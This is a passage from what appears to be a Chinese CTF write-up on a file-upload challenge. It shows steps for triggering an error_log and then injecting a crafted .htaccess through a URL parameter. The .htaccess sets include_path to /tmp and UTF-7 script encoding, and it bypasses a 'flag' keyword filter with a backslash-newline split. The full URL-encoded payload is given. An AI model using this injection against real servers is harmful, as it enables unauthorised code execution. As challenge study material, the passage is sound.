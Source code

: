![img](文件上传.assets/1681146122065-3e78745c-48d5-460d-897f-5bfd0b6ab2d6.png)

- **第二步：访问 index.php 触发报错留下 error_log**
- **第三步：写入 .htaccess 新的配置，将 include_path 选项设定为刚才生成的fl3g.php的目录,并配置解析的编码为 UTF-7**

```php
php_value include_path "/tmp"
php_fl\    # 这里使用\加换行的方式绕过对"flag"的过滤, 即php_flag zend.multibyte 1
ag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
# \
```

将上述内容进行url编码，然后构造 url 并执行：

```php
/index.php?filename=.htaccess&content=php_value%20include_path%20%22%2Ftmp%22%0Aphp_fl%5C%0Aag%20zend.multibyte%201%0Aphp_value%20zend.script_encoding%20%22UTF-7%22%0A%23%20%5C
```
